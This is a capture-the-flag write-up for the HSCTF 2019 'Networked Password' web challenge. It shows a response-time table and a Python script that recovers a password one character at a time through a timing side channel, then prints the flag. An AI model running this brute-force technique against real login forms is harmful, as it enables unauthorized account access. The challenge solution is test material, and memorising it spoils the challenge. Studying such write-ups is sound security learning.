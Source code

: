 ```yaml
---
title: "HSCTF 2019 Networked Password writeup"
description: "HSCTF 2019 Networked Password writeup"
authors: [hi120ki]
tags: [CTF, Web, Web Security]
slug: posts/20190606
---
```


## Problem

```
Storing passwords on my own server seemed unsafe, so I stored it on a seperate one instead.
However, the connection between them is very slow and I have no idea why.
```

[https://networked-password.web.chal.hsctf.com/](https://networked-password.web.chal.hsctf.com/)

<!-- truncate -->

## Solution

First, I check problem page's source code.

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8"/>
    <title>Networked Password</title>
  </head>
  <body>
    <form method="POST">
      <input type="password" placeholder="password" name="password"/>
      <input type="submit"/>
    <form>
  </body>
</html>
```

This is a very simple password form and there is no other information.

I tried a few passwords and noticed that the password "hsctf" takes a lot of time to respond.

This means that we can guess correct password by XS-Search of response time.

The format of the flag is "hsctf{}", so first try "h".

```
{'password': 'a'} response time : 0.811167
{'password': 'b'} response time : 0.915185
{'password': 'c'} response time : 1.018501
{'password': 'd'} response time : 1.120249
{'password': 'e'} response time : 0.916026
{'password': 'f'} response time : 1.013199
{'password': 'g'} response time : 0.919143
{'password': 'h'} response time : 1.324334 ← longest
{'password': 'i'} response time : 0.816922
{'password': 'j'} response time : 0.808752
{'password': 'k'} response time : 0.794029
{'password': 'l'} response time : 0.936624
{'password': 'm'} response time : 0.813636
{'password': 'n'} response time : 1.119719
{'password': 'o'} response time : 1.006724
{'password': 'p'} response time : 0.927347
{'password': 'q'} response time : 1.017954
{'password': 'r'} response time : 1.120191
{'password': 's'} response time : 1.121062
{'password': 't'} response time : 0.915766
{'password': 'u'} response time : 0.813457
{'password': 'v'} response time : 0.749453
{'password': 'w'} response time : 0.964771
{'password': 'x'} response time : 0.918737
{'password': 'y'} response time : 0.927552
{'password': 'z'} response time : 0.796128
```

A character that has longest response time is flag.

Then, I try the characters one by one.

```python
import requests

text = "0123456789abcdefghijklmnopqrstuvwxyz_}"

flag = "hsctf{"

for _ in range(30):
    time = [0.1 for _ in range(38)]
    for _ in range(5):
        for i in range(38):

            payload = {"password": flag + text[i]}

            r = requests.post(
                "https://networked-password.web.chal.hsctf.com", data=payload
            )

            response_time = r.elapsed.total_seconds()

            time[i] += response_time

            print(payload, " response time : ", response_time)

    flag += text[time.index(max(time))]

    print("flag is ", flag)
```

```
flag is hsctf{s
flag is hsctf{sm
flag is hsctf{sm0
flag is hsctf{sm0l
flag is hsctf{sm0l_
flag is hsctf{sm0l_f
flag is hsctf{sm0l_fl
flag is hsctf{sm0l_fl4
flag is hsctf{sm0l_fl4g
flag is hsctf{sm0l_fl4g}
```

